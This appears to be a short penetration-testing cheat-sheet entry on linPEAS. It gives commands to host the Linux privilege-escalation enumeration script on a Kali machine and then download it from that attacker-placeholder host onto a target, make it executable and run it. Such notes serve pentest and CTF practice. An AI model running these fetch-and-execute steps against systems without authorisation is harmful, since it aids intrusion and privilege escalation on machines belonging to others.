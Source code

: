 # linPEAS
- On Kali
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

- On Target
```
cd /tmp
wget http://<ip>/linpeas.sh

chmod +x ./linpeas.sh
./linpeas.sh | tee output.txt
less -r output.txt
```
- https://github.com/carlospolop/PEASS-ng
